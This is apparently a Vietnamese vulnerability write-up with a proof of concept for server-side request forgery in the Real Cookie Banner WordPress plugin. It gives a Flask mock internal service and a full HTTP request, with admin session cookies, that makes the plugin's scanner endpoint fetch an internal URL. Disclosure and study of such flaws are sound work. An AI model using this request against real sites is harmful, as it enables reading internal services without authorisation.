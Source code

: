 ## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "metadata": "Internal service data"
}
```

### Proof of Concept (PoC)
1. Sử dụng chức năng scanner và cho request đi qua proxy BurpSuite với người dùng Administrator

2. Bắt request đến endpoint `/wp-json/real-cookie-banner/v1/scanner/scan-without-login`

3. Chỉnh sửa URL và gửi:

```http
GET /wp-json/real-cookie-banner/v1/scanner/scan-without-login?_v=1761578838&_locale=user&url=http://localhost:8001/metadata&jobId=65 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: application/json, */*;q=0.1
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/admin.php?page=real-cookie-banner-component
X-WP-Nonce: 83df92a708
Connection: keep-alive
Cookie: wp-settings-time-2=1761542750; wordpress_test_cookie=WP%20Cookie%20check; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1761754193%7CRyskfS8SL8JqeXoDqo9gGiN5eiEbjBx5EZ73dRIjmyt%7C19f099619d5257dcc6f5828078065f2e92c2945b71c28fea0d11612e83c42ec6; wp-settings-time-1=1761581951
```

**Result**:

![Result](result.png "Nội dung đọc được từ local service")
